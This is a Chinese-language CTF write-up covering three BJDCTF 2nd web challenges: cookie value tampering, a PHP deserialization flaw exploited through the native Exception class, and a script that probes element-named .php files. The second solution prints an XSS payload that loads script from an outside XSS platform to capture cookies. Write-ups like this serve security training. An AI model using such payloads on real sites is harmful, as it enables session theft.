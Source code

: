 ----
## [BJDCTF 2nd]Schrödinger
扫目录:
```
[14:11:56] 200 -    2KB - /index.php
[14:13:54] 200 -    2KB - /test.php
```
访问test.php，发现是个登录页，尝试注入无果，于是返回主页，抓包发现有cookie，base64解码发现是一串数字，改成-10000，`url=127.0.0.0.1/test.php`，然后整上，发现进度为99%，点一下check，继续改为-10000，得到密码，发现b站av号，访问，按时间排序找到3月12日的Hello my friend from BJD！ BJD{Quantum_Mechanics_really_Ez}，得到flag

----
## [BJDCTF 2nd]xss之光
扫目录，发现有git泄露，于是githack得到源码：
```
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```
看起来是个反序列化，找到出题人的[博客](http://blog.ydspoplar.top/2020/03/17/php%E5%8F%AF%E5%88%A9%E7%94%A8%E7%9A%84%E5%8E%9F%E7%94%9F%E7%B1%BB/)，使用xss平台：
```
<?php
$a = new Exception("<script src=http://xss.buuoj.cn/vliIUf></script>");
echo urlencode(serialize($a));
```
整进去，查看cookie，得到flag

----
## [BJDCTF 2nd]elementmaster
扫目录，发现`.DS_Store`，把文件整下来，结果p都没有。hint中提到门捷列夫，所以整一个元素周期表.php，看看存在啥：
```
import requests

url = 'http://d97c8999-10ee-4cc2-b8e7-ea4b27656844.node3.buuoj.cn/'

ele=['H', 'He', 'Li', 'Be', 'B', 'C', 'N', 'O', 'F', 'Ne', 'Na', 'Mg', 'Al', 'Si', 'P', 'S', 'Cl', 'Ar',
    'K', 'Ca', 'Sc', 'Ti', 'V', 'Cr', 'Mn', 'Fe', 'Co', 'Ni', 'Cu', 'Zn', 'Ga', 'Ge', 'As', 'Se', 'Br', 
    'Kr', 'Rb', 'Sr', 'Y', 'Zr', 'Nb', 'Mo', 'Te', 'Ru', 'Rh', 'Pd', 'Ag', 'Cd', 'In', 'Sn', 'Sb', 'Te', 
    'I', 'Xe', 'Cs', 'Ba', 'La', 'Ce', 'Pr', 'Nd', 'Pm', 'Sm', 'Eu', 'Gd', 'Tb', 'Dy', 'Ho', 'Er', 'Tm', 
    'Yb', 'Lu', 'Hf', 'Ta', 'W', 'Re', 'Os', 'Ir', 'Pt', 'Au', 'Hg', 'Tl', 'Pb', 'Bi', 'Po', 'At', 'Rn', 
    'Fr', 'Ra', 'Ac', 'Th', 'Pa', 'U', 'Np', 'Pu', 'Am', 'Cm', 'Bk', 'Cf', 'Es', 'Fm','Md', 'No', 'Lr',
    'Rf', 'Db', 'Sg', 'Bh', 'Hs', 'Mt', 'Ds', 'Rg', 'Cn', 'Nh', 'Fl', 'Mc', 'Lv', 'Ts', 'Og', 'Uue']

ans = ''

for i in ele:
    res = requests.get(url + i + '.php')
    if res.status_code != 404:
        print(i + ' is ans')
        ans += res.text
    else:
        print('shit')

print(ans)
```